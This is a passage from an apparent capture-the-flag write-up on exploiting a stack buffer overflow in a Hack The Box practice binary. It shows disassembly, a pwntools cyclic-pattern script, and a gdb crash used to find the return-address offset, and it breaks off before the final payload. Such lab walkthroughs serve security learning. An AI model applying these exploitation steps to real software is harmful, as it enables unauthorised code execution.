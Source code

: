 
```bash
[...snip...]
8049258:       83 ec 0c                sub    $0xc,%esp
804925b:       8d 45 b4                lea    -0x4c(%ebp),%eax
804925e:       50                      push   %eax
804925f:       e8 cc fd ff ff            call   8049030 <printf@plt>
8049264:       83 c4 10                add    $0x10,%esp
8049267:       eb 04                   jmp    804926d <flag+0x8b>
[...snip...]
```

which prints the contents of the `fopen`. 


## [](#mindset-step3)Step 3 - Crafting the attack

To have this to work, we need to find the exact offset to which we overflow the buffer and inject a call to the `flag` function. To calculate the offset, we can use `pwntools` in Python and create a cycled input. This will calculate a rough estimate of how many bytes we need to overflow and inject a call. A simple Python script should do the job:

```python
from pwn import cyclic
import sys
pattern = cyclic(300)
sys.stdout.buffer.write(pattern)
```

Let's create a file with this as a payload to be passed to the `vuln` executable. We can run:

```bash
(htb-venv) kaizen@celestial /tmp/htb $ python3 cycle.py > cycle.txt
(htb-venv) kaizen@celestial /tmp/htb $ cat cycle.txt 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
```

Now, we  need to pass this as a payload to the `vuln` executable and examine at what address the program crashes. To help us with that, we will use GDB: `gdb ./vuln`. Once inside, we run with `r < cycle.txt`:

```bash
(gdb) r < cycle.txt
Starting program: /tmp/htb/vuln < cycle.txt
Downloading separate debug info for system-supplied DSO at 0xf7fc7000                  
[Thread debugging using libthread_db enabled]                                          
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac

Program received signal SIGSEGV, Segmentation fault.
0x62616177 in ?? ()
```
